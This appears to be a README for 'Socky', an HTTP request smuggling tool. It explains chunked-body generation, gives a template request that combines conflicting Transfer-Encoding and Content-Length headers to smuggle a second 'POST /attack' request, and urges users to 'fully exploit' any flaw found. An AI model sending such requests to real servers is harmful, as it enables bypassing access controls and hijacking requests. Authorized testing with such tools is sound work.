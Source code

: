 # **Socky: HTTP Request Smuggling Tool**

**Socky** is a tool designed for performing HTTP request smuggling attacks. This tool enables you to craft and send chunked requests that may exploit vulnerabilities in web applications, particularly those related to improper handling of chunked encoding. You can generate chunked data using a helper script (`paycraft.py`) and then use Socky to test for vulnerabilities in the target server.

## **Setup Instructions**

1. **Prepare the Request File (`request.txt`)**

   First, you need to create a request file where you will write the chunked HTTP requests. You can manually craft chunked requests, but you can also use the `paycraft.py` script to generate the chunked data.

   **How to use `paycraft.py`:**

   - Run the following command to generate chunked data for your payload:
     ```bash
     python paycraft.py "{data}"
     ```
     Replace `{data}` with the body content you want to send, and `paycraft.py` will return the chunked-encoded version of that data.

   - Example:
     ```bash
     python paycraft.py "This is my secret payload"
     ```
     This will output chunked-encoded data like:
     ```
     1\r\nT\r\n
     1\r\nh\r\n
     1\r\ni\r\n
     1\r\ns\r\n
     1\r\n \r\n
     1\r\nm\r\n
     1\r\ny\r\n
     1\r\n \r\n
     1\r\ns\r\n
     1\r\ne\r\n
     1\r\nc\r\n
     1\r\nr\r\n
     1\r\ne\r\n
     1\r\nt\r\n
     1\r\n \r\n
     1\r\np\r\n
     1\r\na\r\n
     1\r\ny\r\n
     1\r\nl\r\n
     1\r\no\r\n
     1\r\na\r\n
     1\r\nd\r\n
     0\r\n\r\n
     ```

   **Example request file (`request.txt`)**:
   ```
   POST /path/to/target HTTP/1.1
   Host: target.com
   Transfer-Encoding: chunked
   Content-Length: 5
   Connection: close
   
   0
   
   POST /attack HTTP/1.1
   Host: target.com
   Content-Length: 13
   Connection: close
   {insert chunked data here}

   0
   ```

   Replace `{insert chunked data here}` with the chunked-encoded data generated by `paycraft.py`.

2. **Run Socky**

   Once the `request.txt` file is ready, run Socky to send the crafted requests to the target server and analyze the responses.

   ```bash
   python sock.py request.txt
   ```

   - **`request.txt`**: This is the file containing your crafted chunked requests.
   - Socky will send the requests and analyze the response to identify any vulnerabilities.

3. **Analyze the Response**

   After sending the crafted request, Socky will display the server's response. The tool will help you understand if a request smuggling vulnerability exists by showing any anomalies in the server's behavior.

4. **Conduct Further Attacks**

   Once you’ve identified a vulnerability, you can proceed with more sophisticated smuggling techniques or other attacks to fully exploit the vulnerability. Socky helps automate these tasks and provides insights into how the server handles crafted requests.

## **How Socky Works**

1. **Crafting Malicious Requests**  
   Socky helps you manually craft requests with chunked encoding or use `paycraft.py` to generate chunked data for the request body. You can then insert the chunked data into your request file.

2. **Sending Requests**  
   Socky sends the crafted request to the target server. After sending the request, the tool waits for the server's response.

3. **Analyzing Responses**  
   Socky prints the server's response. If the server improperly handles multiple requests (e.g., processing them as one), this indicates a potential vulnerability to HTTP request smuggling.

## **Example Output**

When you run Socky, you will see the response from the target server. An example output could look like this:

```
[+] Sending chunked request to http://target.com/path/to/target
[+] Response: 200 OK
[+] Smuggling successful, check for unauthorized access or behavior.
```

If the server improperly processes the requests, you may observe anomalies or unexpected behavior in the response, such as unauthorized access or incorrect data handling.
